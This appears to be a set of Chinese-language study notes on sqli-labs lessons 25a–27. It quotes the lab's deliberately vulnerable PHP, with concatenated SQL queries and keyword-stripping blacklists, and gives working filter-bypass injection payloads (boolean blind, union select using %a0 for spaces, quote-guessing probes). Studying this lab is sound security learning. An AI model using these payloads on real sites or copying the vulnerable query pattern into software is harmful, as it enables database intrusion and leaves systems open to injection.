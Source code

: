 - **less 25a GET - Blind Based - All your OR & AND Belong to us - String - Single Quotes** </br>
	$id= blacklist($id);</br>
	$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";</br>
	//print_r(mysql_error()); </br>
	报错注入不能用，所以使用基于布尔的注入，其中and/or进行了过滤</br>
	?id=-1%20||%20if(ascii(substr(database(),1,1))%3d117,0,1)判断数据库名字第一个字符是不是u(users库)</br>
  然后依次这样，查出数据库名

- **less 26 GETs - Error Based - All your Spaces and Comments Belong to us** </br>
	Comments 注释</br>
	php中:</br>
	   function blacklist($id)
	    {
		$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
		$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
		$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
		$id= preg_replace('/[--]/',"", $id);		//Strip out --
		$id= preg_replace('/[#]/',"", $id);			//Strip out #
		$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
		$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
		return $id;
	   }
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";</br>
	思路：</br>
  注释过滤了可以手动闭合引号，空格过滤
	可以使用  %a0  换行，</br>
  /\**/ 注释， （） 括号等绕过空格</br>
	此处注释不能使用，为了使用select时去掉末尾引号，空格也不行</br>
	id='111'union(select(1),(version()),(3)） ' LIMIT 0,1; 使用括号时，引号还在</br>
	?id=111%27union%a0select%a01%2cversion()%2c3||%271使用换行成功

- **less 26a  GET - Blind Based - All your SPACES And COMMENTS Belong to us - Quotes-Parenthesis** </br>
	过滤和less26相同</br>
	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";</br>
	?id=111%27)union%a0select%a01%2cversion()%2c3||(%271</br>

	思考：在盲注时，我们不知道进行了哪些过滤，可以构造特殊payload,如果返回原结果，则说明是我们所猜测的 %26为&</br>
	?id=1%27%26%26%271=1 猜测为’ ‘</br>
	?id=1%27)%26%26(%271=1 猜测为（’ ‘）</br>
	?id=1%22%26%26%221=1 猜测为 " "</br>
	?id=1%22)%26%26(%221=1 猜测为(" ")</br>
	?id=1)%26%26(1=1  猜测为()</br>
	?id=1%26%261=1 无</br>
等诸如此类</br>

- **less 27 GET - Error Based - All your UNION & SELECT Belong to us - String - Single Quotes**</br>
  	function blacklist($id)
  	{
  	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
  	$id= preg_replace('/[--]/',"", $id);		//Strip out --.
  	$id= preg_replace('/[#]/',"", $id);			//Strip out #.
  	$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
  	$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
  	$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
  	$id= preg_replace('/union/s',"", $id);	    //Strip out union
  	$id= preg_replace('/select/s',"", $id);	    //Strip out select
  	$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
  	$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
  	$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
  	$id= preg_replace('/Select/s',"", $id);	    //Strip out select
  	return $id;
  	}
